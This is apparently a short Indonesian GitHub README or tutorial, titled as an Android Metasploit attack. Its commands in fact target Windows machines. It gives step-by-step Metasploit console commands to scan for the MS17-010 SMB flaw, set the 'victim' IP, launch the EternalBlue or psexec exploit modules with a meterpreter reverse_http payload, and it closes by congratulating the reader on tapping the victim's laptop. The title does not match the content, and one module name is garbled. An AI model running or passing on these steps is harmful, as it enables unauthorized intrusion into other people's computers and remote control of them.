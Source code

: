 # Metasploit

# Android Attack 

![image.png]( {https://bahrunsyah.xyz} ) 
> $sudo apt update

> $sudo apt upgrade

> $ifconfig (untuk mengetahui ip)

> $sudo su (masuk ke menu root)

Jalankan Tools

> #msfconsole

kemudian ketikan perintah 

> #search smb

> #use auxiliary/scanner/smb/smb_sm17_010

> #set RHOSTS (ip korban)

> #run

> #use exploit/windows/smb/ms17_010_eternalblue (JIKA KORBAN MENGGUNAKAN WINDOW 7)

> #use exploit/windows/smb/ms17_010_psexec (JIKA KORBAN MENGGUNAKAN WINDOW 7+)

> #set payload windows/meterpreter/reverse_http

> #exploit

END BOOOMMM!

> #? (untuk melihat menu perintah apa saja yang dapat dilakukan)

selamat kamu telah menyadap laptop target/korban mu :)
